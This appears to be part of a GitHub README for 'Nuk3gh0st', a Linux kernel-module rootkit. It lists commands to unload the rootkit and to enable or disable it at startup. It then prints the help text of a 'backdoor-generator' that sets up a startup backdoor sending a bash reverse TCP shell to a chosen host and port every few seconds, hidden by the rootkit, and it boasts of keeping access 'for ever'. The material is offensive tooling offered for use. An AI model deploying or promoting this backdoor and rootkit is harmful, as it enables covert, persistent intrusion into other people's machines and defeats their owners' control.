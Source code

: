 Unload rootkit:

```sh
unload-nuk3gh0st
```

## Special functionality

Enabling rootkit at system startup:

```sh
enable-nuk3gh0st
```

Disabling rootkit at system startup:

```sh
disable-nuk3gh0st
```

## Backdoor Generator

Use backdoor generator:
```sh
backdoor-generator --help

 \______   \_____    ____ |  | __ __| _/____   ___________     
  |    |  _/\__  \ _/ ___\|  |/ // __ |/  _ \ /  _ \_  __ \    
  |    |   \ / __ \  \___|    </ /_/ (  <_> |  <_> )  | \/    
  |______  /(____  /\___  >__|_ \____ |\____/ \____/|__|       
         \/      \/     \/     \/    \/                        
                                            __                 
    ____   ____   ____   ________________ _/  |_  ___________  
   / ___\_/ __ \ /    \_/ __ \_  __ \__  \   __\/  _ \_  __ \ 
  / /_/  >  ___/|   |  \  ___/|  | \// __ \|  | (  <_> )  | \/ 
  \___  / \___  >___|  /\___  >__|  (____  /__|  \____/|__|    
 /_____/      \/     \/     \/           \/                    
                                                               
    Generates a backdoor that sends bash reverse TCP shell	
        every S seconds to H host, listening on P port         
           and running it on startup, hidding itself           
           	  with Nuk3gh0st LKM rootkit                   
   								
   		       In other words...			
   	   YOU CAN MANTAIN ACCESS FOR EVER AND EVER!   		
                                                               
                                                               
 Usage:                                                            
                                                                   
    backdoor-generator --host H --port P --sleep S                 
		Genetares a backdoor that sends bash reverse TCP shell   
		every S seconds to H host listening on P port, and       
 		running it on startup.                                   
		                                                         
    backdoor-generator --remove                                    
		Remove previously generated backdoor from startup        
		and their files.                                         
		                                                         
    backdoor-generator --help                                      
		Show this menu.                                          
```
